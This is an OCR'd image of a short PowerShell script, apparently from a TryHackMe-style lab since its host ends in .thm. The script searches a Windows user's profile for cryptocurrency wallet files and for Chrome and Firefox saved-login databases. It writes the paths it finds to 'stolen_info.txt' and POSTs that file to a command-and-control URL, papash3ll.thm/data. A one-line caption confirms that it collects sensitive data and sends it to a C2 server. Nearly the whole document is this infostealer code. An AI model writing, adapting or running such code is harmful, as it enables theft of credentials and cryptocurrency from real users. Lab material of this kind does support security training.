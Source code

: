 ```powershell
# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

This collects sensitive information from the user's computer, such as crypto wallet files and browser credential files, and sends them to a C2 server.
